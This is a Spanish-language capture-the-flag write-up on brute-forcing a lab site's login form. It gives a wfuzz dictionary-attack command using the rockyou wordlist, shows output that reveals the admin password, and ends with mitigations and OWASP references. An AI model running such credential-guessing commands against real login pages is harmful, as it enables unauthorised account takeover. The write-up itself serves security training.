# Brute Force Attack
### A07:2021 – Identification and Authentication Failures 

Un **ataque de fuerza bruta** es un ataque que implica el craqueo de credenciales o contraseñas por uso de prueba y error.

Estos ataques pueden ser completamente manuales o automatizados mediante el uso de diccionarios de credenciales o usuarios (**dictionary attack**).

## Ataque

- **Localización**: /index.php?page=singin

Tenemos un formulario para ingresar unas credenciales y loguearse en la página. Hacemos las pruebas necesarias para ver si hay algún error de sanitización de input de usuario, como una [inyección SQL](./sql_injection_users.md). 

Tras ver que el iput está sanitizado, probamos con un ataque de fuerza bruta mediante un diccionario, el cual podemos automatizar con **wfuzz** ya que las credenciales se pasan por query:

```bash
wfuzz --hh 1988 -w rockyou.txt "http://<IP>/index.php?page=signin&username=admin&password=FUZZ&Login=Login#"
```
Y el resultado es:

```bash
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.11.200.124/index.php?page=signin&username=admin&password=FUZZ&Login=Login
Total requests: 14344391

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                         
=====================================================================

000000073:   200        54 L     139 W      2086 Ch     "shadow" 
```

Probamos la combinación de credenciales **admin** y **shadow**, y finalmente
obtenemos la flag.

## Mitigación

- Uso de herramientas de limitación de peticiones por segundo para mitigar ataques de fuerza bruta.
- **Securización de credenciales** 
- Monitorización de credenciales en filtraciones de datos
- Implementación de protocolos de complejidad de contraseñas
- Implementar mecanismos de lockout.

## Referencias
- [A07:2021 – Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/)
- [A09:2021 – Security Logging and Monitoring Failures](https://owasp.org/Top10/A09_2021-Security_Logging_and_Monitoring_Failures/)
- [OWASP: Testing for Weak Lock Out Mechanism](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/04-Authentication_Testing/03-Testing_for_Weak_Lock_Out_Mechanism)